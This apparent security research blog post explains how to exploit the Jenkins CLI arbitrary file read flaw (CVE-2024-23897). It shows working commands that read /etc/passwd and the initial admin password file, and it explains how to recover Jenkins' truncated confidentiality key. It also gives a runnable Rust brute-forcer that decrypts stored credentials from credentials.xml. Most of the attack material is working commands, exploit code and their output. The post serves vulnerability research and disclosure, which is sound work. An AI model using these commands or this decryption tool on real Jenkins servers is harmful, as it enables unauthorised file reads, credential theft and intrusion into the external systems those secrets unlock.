



Initial Advisory
================

A security advisory published in late January informed of a [critical vulnerability](https://www.jenkins.io/security/advisory/2024-01-24/) patched in Jenkins. The vulnerability is trivially exploited and can be used to read the beginning of an arbitrary file, or the whole file dependending on whether the attacker is authenticated.

```
java -jar /usr/local/share/jenkins-cli.jar -noCertificateCheck -s http://127.0.0.1:8080/ who-am-i @/etc/passwd
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
INFO: Skipping HTTPS certificate checks altogether. Note that this is not secure at all.

ERROR: No argument is allowed: root:x:0:0:root:/root:/bin/bash
java -jar jenkins-cli.jar who-am-i
Reports your credential and permissions.
```

An unauthenticated attacker can retrieve the first 3 lines of any readable file, using the [who-am-i, enable-job and keep-build commands respectively.](https://github.com/gquere/pwn_jenkins?tab=readme-ov-file#jenkins-cli-arbitrary-read-cve-2024-23897-applies-to-versions-below-2442-and-lts-24263) This opens a venue for exploitation, either by exploiting Jenkins itself or another service on the machine (have you ever noticed how K8S tokens fit a single line?).

Though there is a caveat, binary files can't really be retrieved, at least not in full:


This is a problem since Jenkins encrypts all secrets using two keys: ```master.key``` and ```hudson.util.Secret```, the latter being stored in binary format. All exploitation scenarios listed by the team rely on the ability to read binary files, i.e. reading the ```hudson.util.Secret``` file.

Therefore most everyone including me drew the following conclusion:

* an unauthenticated attacker cannot exploit the Jenkins service but has to rely on another service or misconfiguration on the same machine to retrieve secrets
* an authenticated attacker might be able to retrieve sensitive information from the Jenkins build config and logs if it wasn't properly tagged as a secret in the first place (which is a common misconfiguration) but cannot decrypt secrets

New finding: key export restrictions
====================================

I was reminded by [@Alkanoor](https://github.com/alkanoor) that because of US export restrictions on cryptographic keys, the native JVM only supports 128 bit keys and therefore all keys used by Jenkins in the Credentials plugin that stores external secrets [are truncated](https://github.com/jenkinsci/credentials-plugin/blob/f64dada9b7705e802220138d2a07a8b5f57419cc/src/main/java/com/cloudbees/plugins/credentials/CredentialsConfidentialKey.java#L109).

Jenkins' decryption process which might be easier to read in [this decryption script](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py#L48) is twofold:

* the ```master.key``` file is hashed and truncated to a 16 bytes AES key
* using the derived master key, the binary ```hudson.util.Secret``` file is decrypted and truncated to a 16 bytes key
* the key obtained is dubbed the confidentiality key and is used to decrypt all secrets

Therefore only the first 16-bytes block of the ```hudson.util.Secret``` file is relevant to recover the confidentiality key. Since we're supposedly missing half the bytes of said key, ***the Jenkins confidentiality key can be bruteforced***. I'm not sure whether the advisory was disigenuous or contained a legitimate mistake.

Bruteforcing the confidentiality key
====================================

We're not out of the woods yet as the bar has only been slightly lowered:

The confidentiality key is randomly generated so there's no way to tell whether a decrypted confidentiality key is valid or not. There is some padding information at the end of the ```hudson.util.Secret``` but it's located many blocks after the first block that contains the key so we might not be able to retrieve it and even if we could half the bytes leading up to that block would have to be guessed which is infeasible.

Therefore, all candidate keys have to be tried on a valid ciphertext. The plaintext has a high probability of being printable and chosing a small candidate will limit the number of decryption operations needed to reach the PKCS#7 padding at the end of it, which is another discriminating clue to quickly rule out candidates. The best ciphertext candidate is a single block long which implies that the underlying secret is less than 15 bytes.

Since [UTF-8](https://en.wikipedia.org/wiki/UTF-8#Codepage_layout) is used to encode the file, some favorable assumptions can be made about the missing bytes:

* a truncated response indicates that the last byte is either a line feed 0x0A or a carriage return 0x0D.
* all bytes in the range [00:7F] will be printed, no matter what
* if a single byte is missing between two valid bytes, it has to be in the range [80:FF]
* if 2 bytes are missing they cannot form a valid UTF-8 sequence, therefore it cannot be the ranges [C2:DF][80:BF]

But there are also unfavorable effects:

* a 3-bytes or 4-bytes sequence that misses part of its continuation bytes will result in a single missing byte, for instance the invalid sequence ```E2 B0 41``` will produce ```EF BF BD 41``` and not the expected ```EF BF BD EF BF BD 41```

If you fail to find the key but have exhausted the whole keyspace then there's a good chance that your key contains one of these invalid sequences.

The following table taken from the wikipedia page highlights valid sequences:



The attacker can retrieve the master key and part of the encrypted confidentiality key, where the ```EF BF BD``` sequences represent missing bytes:


Assuming he also has access to an encrypted credential, either by being authenticated and dumping ```/var/jenkins_home/credentials.xml``` in full or by recovering it by any other means (might be stored on a git instance). This file contains encrypted secrets, usually used to connect to external systems:
```xml
<?xml version='1.1' encoding='UTF-8'?>
<com.cloudbees.plugins.credentials.SystemCredentialsProvider plugin="credentials@1337.v60b_d7b_c7b_c9f">
  <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
    <entry>
      <com.cloudbees.plugins.credentials.domains.Domain>
        <specifications/>
      </com.cloudbees.plugins.credentials.domains.Domain>
      <java.util.concurrent.CopyOnWriteArrayList>
        <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
          <scope>GLOBAL</scope>
          <id>31bd34dc-b426-4edb-817f-4fb66ec9ecad</id>
          <description></description>
          <username>test</username>
          <password>{AQAAABAAAAAQ8juamQtr0c5JaUUSCuk8DD0Wbn5Dqs54nMfQtrPQeHM=}</password>
          <usernameSecret>false</usernameSecret>
        </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
      </java.util.concurrent.CopyOnWriteArrayList>
    </entry>
  </domainCredentialsMap>
</com.cloudbees.plugins.credentials.SystemCredentialsProvider>
```

The base64 password contains a specific header, the IV and then the AES-CBC 128 ciphertext with PKCS#7 padding:a
```
ub64 AQAAABAAAAAQ8juamQtr0c5JaUUSCuk8DD0Wbn5Dqs54nMfQtrPQeHM= | xxd
00000000: 0100 0000 1000 0000 10f2 3b9a 990b 6bd1  ..........;...k.
00000010: ce49 6945 120a e93c 0c3d 166e 7e43 aace  .IiE...<.=.n~C..
00000020: 789c c7d0 b6b3 d078 730a                 x......xs.
```

The values needed to perform the bruteforce search are:

* the derived master key which is the first 16 bytes of the sha256 of the ```master.key``` file
* a candidate encrypted confidentiality key with the missing bytes replaced by guesses
* the IV of a secret
* the first block of a secret, ideally a one-block secret

Here's a toy sample in Rust (that needs to be compiled with the AES rustflags ```RUSTFLAGS="-C target-feature=+aes,+ssse3" cargo build --release```) with the previous values hardcoded:
```rust
extern crate aes;
extern crate rayon;
extern crate itertools;

use std::str;
use rayon::prelude::*;
use aes::Aes128;
use aes::cipher::typenum;
use aes::cipher::{
    BlockDecrypt, KeyInit,
    generic_array::GenericArray,
};

fn do_decrypt(candidate: GenericArray<u8, typenum::U16>) {
    let mut ct = GenericArray::from([0x3d,0x16,0x6e,0x7e,0x43,0xaa,0xce,0x78,0x9c,0xc7,0xd0,0xb6,0xb3,0xd0,0x78,0x73]);
    let iv = GenericArray::from([0xf2,0x3b,0x9a,0x99,0x0b,0x6b,0xd1,0xce,0x49,0x69,0x45,0x12,0x0a,0xe9,0x3c,0x0c]);

    let cipher2 = Aes128::new(&candidate);
    cipher2.decrypt_block(&mut ct);

    // AES-CBC, need to xor pt with iv
    for n in 0..16 {
        ct[n] ^= iv[n];
    }

    // no padding on a single block cannot be valid
    if ct[15] == 0 {
        return
    }

    // check PKCS#7 padding
    for k in 0..ct[15] {
        if ct[15 - k as usize] != ct[15] {
            return
        }
    }

    // assume secret is printable
    for k in 0..(16 - ct[15]) {
        if ct[k as usize] > 0x7F || ct[k as usize] < 0x20 {
            return
        }
    }

    println!("{:?}: Candidate {:?}", str::from_utf8(&ct), &candidate);
}

fn main() {
    let derived_master_key = GenericArray::from([0x03,0x0a,0xd5,0xa4,0x1e,0x10,0xf2,0x66,0x1b,0xb7,0x90,0x5d,0x32,0x08,0x4f,0x34]);
    let cipher1 = Aes128::new(&derived_master_key);

    let vec: Vec<u8> = (0x80..=0xFF).collect();

    vec.par_iter().for_each(|a: &u8| {
        for b in 0x80..=0xFF {
            for c in 0x80..=0xFF {
                for d in 0x80..=0xFF {
                    for e in 0x80..=0xFF {
                        let mut candidate = GenericArray::from([*a,0x3d,0x4a,0x68,0xc2,0xb3,b,0x08,c,d,e,0x5a,0x1f,0x5e,0x32,0x1f]);
                        cipher1.decrypt_block(&mut candidate);
                        do_decrypt(candidate)
                    }
                }
            }
        }
    });
}
```

This threaded sample code runs in 1m20s on an AMD 5800X. It's realistically optimizable to run in about a minute on a modern CPU. We simply need to multiply by 128 to get estimates for how many bytes need to be bruteforced:

* 5 or less missing byte: 1 minute
* 6 missing bytes: 2 hours
* 7 missing bytes: 10 days
* 8 missing bytes: 3 years

It's still feasible to bruteforce 7 and 8 missing bytes but this has to be done on an AWS instance, or maybe on a GPU farm.

Rambling about performance
==========================

The article is over. **From here on it's just me rambling in the void about the performance of various languages and libraries.**

You might have noticed that the code presented is not elegant as it uses 4 hardcoded nested loops, with an additional outer loop provided by ```rayon::par_iter```. This is the most compact code I managed to produce (first time using Rust though!) that still works for bigger datasets. The ```std::thread``` had similar performance when applied to the outer loop, maybe 1% better, but the code doesn't look clean.

There doesn't seem to exist a cleaner alternative in Rust. Applying ```rayon::par_iter``` to a cartesian product of ranges is not possible above 4 unknowns because the vector needs to be collected before being worked upon. This blows up the RAM, requiring dozens if not hundreds of gigabytes of memory.

Another threading approach is to use ```rayon::par_bridge``` which is able to work on an iterator which avoids collecting the vector. Sadly it has such a terrible overhead that **it is two orders of magnitude slower than par_iter**.

I also coded the bruteforcer in C. My first attempt was at using OpenSSL which didn't have great performance and proved troublesome to parallelize. The second attempt was to use an [AES-NI library](https://gist.github.com/acapola/d5b940da024080dfaf5f). This one parallelized just fine using OpenMP and had better performance, but not as good as Rust's aes crate.

These are the parallelization speedup compared to a non-threaded program obtained with different libraries:

* Rust ```rayon::par_iter``` speedup: 4.75 on 4 cores/8 threads, 11.00 on 8C/16T
* Rust ```std::threads``` speedup: 4.75 on 4C/8T
* C OpenMP: 6.16 on 4C/8T, 17.5 on 8C/16T

On its own this doesn't make OpenMP superior to Rust's parallelization, the difference could be explained by a number of factors including processor architecture, a full pipeline, lack of optimization... But it does seem consistent with online testimonies. A next step could be to find a better C library and see if the results hold up.

Bonus finding: temporary admin password
=======================================
Since you've stuck with me till the end and shared my frustration here's my bonus tip: some Jenkins installs have a temporary admin password stored in cleartext in the file ```/var/jenkins_home/secrets/initialAdminPassword```. Maybe your admin got lazy and hasn't changed it?

```
java -jar /usr/local/share/jenkins-cli.jar -noCertificateCheck -s http://127.0.0.1:8080/ who-am-i @/var/jenkins_home/secrets/initialAdminPassword
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
INFO: Skipping HTTPS certificate checks altogether. Note that this is not secure at all.

ERROR: No argument is allowed: 8f0136976b3a4c31bcf638133c23a90b
java -jar jenkins-cli.jar who-am-i
Reports your credential and permissions.
```
